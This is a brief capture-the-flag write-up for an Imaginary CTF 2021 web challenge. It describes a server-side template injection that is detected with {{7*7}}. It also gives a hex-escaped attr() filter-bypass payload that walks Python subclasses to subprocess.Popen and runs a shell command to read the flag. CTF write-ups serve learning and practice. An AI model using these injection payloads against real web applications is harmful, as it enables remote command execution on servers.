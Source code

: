 - ## Imaginary ctf 2021:
  Problem: Web page had an input box for html code. Entering {{7*7}} reurns 49. Thus it is prone too ssti
  Initial payload: ```{{ ()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')() }}```
  This was interesting, the filer in the script didnt allow use of class, base or global so the attr was used instead and hexadecimal notations of class,
  base and subclasses was used which makes the payload in ascii:
  ```{{__class__.__base__.__subclasses__}}``` <br>
  The empty tuple () in the expression serves as an object from which we can start chaining attribute lookups <br>
  the | operator is used to chain these filters together, applying each one in sequence to transform the value step by step. <br>

  This gives a list of all the modules. Index of ```<class 'subprocess.Popen'>``` at 360.

  Final payload: ```{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}```

- 
